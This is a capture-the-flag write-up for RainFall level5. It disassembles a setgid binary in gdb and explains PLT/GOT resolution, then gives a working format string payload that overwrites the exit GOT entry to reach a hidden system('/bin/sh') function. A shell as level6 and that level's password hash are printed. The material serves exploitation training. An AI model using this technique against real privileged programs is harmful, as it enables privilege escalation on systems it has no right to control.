 # level5

## Hint

When we log into the machine as `level5`, we notice a binary:

```shell-session
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

## gdb

Let's look now at the binary.

```gdb
level5@RainFall:~$ gdb -q ./level5
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>                        <-- Call to function `n`
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
```

Let's look at `n`.

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>            <-- Call to fget into esp
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>           <-- Call to printf with esp as conv string (?)
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```

So we don't see any `system()` call here. Maybe there is another function ?

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o                                          <-- An other function ! `o`
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

Yes ! There it is. `o` not referenced in the control flow.

Let's see what's `o` tells us.

```gdb
gdb-peda$ disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>           <-- Call to system() with string "/bin/sh" 
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump
```

Ok now we have our call to `system()`.

We know where we need to go next in order to exploit our way to a shell.

But how can we do it ? Well there is some other symbol available we have not yet underligned: the `exit` function.

## exit me more

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit                         <--- exit function
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
gdb-peda$ disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>       <-- pointer to the address returned by the PLT
End of assembler dump.
gdb-peda$ disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838     <- Dereferenced pointer to exit function call address, returned by the GOT
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```

We know that, when calling a dynamically linked function, including everything from the libc, we use a system feature call PLT (procedure linkage table), this procedure allows for the resolution of addresses unknown at runtime, these addresses are stored in the GOT (Global Offset Table).

When execution sends a symbol to the PLT, the PLT asks the GOT for the actual address of that symbol (functions, etcetc...).

Therefor, the GOT returns a pointer to the proper address of that symbol. 

The only thing is that the value pointed to by that pointer, thanks to Format String Exploits, can be overwritten before the runtime evaluates that address, and will therefor resolve to an arbitrary (or not) function call.

What is left for us is to use a classic format string exploit to overwrite the address to call function `o()` that we know will run a new `shell`.

## Format Stringue Exploit

Same as before, we must first deduce the position of the arguments of printf, so we send it an easily readable string and look for the position of the segment "BBBB" which translates to  "42424242" and see it's in 4th position.

```shell-session
level5@RainFall:~$ (python -c 'print "BBBB" + "|-|%08x" * 20 ') | ./level5
BBBB|-|00000200|-|b7fd1ac0|-|b7ff37d0|-|42424242|-|257c2d7c|-|7c783830|-|30257c2d|-|2d7c7838|-|3830257c|-|7c2d7c78|-|78383025|-|257c2d7c|-|7c783830|-|30257c2d|-|2d7c7838|-|3830257c|-|7c2d7c78|-|78383025|-|257c2d7c|-|7c783830
```

Now we know that we can inject, usign `%n` like before, an arbitrary value to the argument in 4th position.

We also know that the pointer returned by the GOT is found at address `0x8049838`.
As shown by disassembling the `exit` symbol.

We must now determine what address we are aiming at, and therefor the value we are trying to inject, easily enough, it is the `o()` function address: `0x080484a4` which equals to 134513828.

With all that in mind, we can construct a string that not only uses `%n` as a means to inject an arbitrary value (134513828), but also the address we are trying to overwrite (the one pointed to by 0x8049838).

The last thing is that we must substract 4 bytes from the total amout of bytes to write to leave room for the Format String address and have the correct value sent by `%n`, as well as consider endianess when writing the address in the format string.

```shell-session
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"'; cat) | ./level5
[...Huge long string of bytes that prints for tens of seconds...]
_
whoami
level6
cat ~level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
